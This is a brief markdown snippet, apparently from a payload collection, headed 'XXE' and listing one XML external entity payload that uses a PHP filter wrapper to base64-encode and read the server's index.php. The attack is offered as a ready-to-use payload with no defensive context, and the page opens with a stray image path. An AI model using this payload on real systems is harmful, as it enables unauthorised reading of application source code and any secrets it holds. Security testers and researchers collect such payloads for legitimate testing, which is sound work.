 # XXE

## Payloads

- using php wrapper

```bash
<?xml version="1.0"?><!DOCTYPE xxe [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<data>&test;</data>
```